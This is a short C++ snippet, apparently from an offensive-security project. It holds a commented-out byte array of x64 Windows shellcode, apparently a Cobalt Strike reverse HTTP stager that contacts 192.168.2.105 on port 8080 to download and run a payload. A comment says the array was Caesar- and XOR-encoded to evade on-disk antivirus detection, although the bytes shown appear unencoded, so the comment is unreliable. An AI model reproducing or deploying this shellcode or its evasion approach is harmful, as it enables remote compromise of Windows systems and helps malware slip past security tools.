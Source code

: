 ```cpp
  // unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";

  // This is the array generated by CS after running through my ceaser cipher and XOR, which does not get detected on disk
```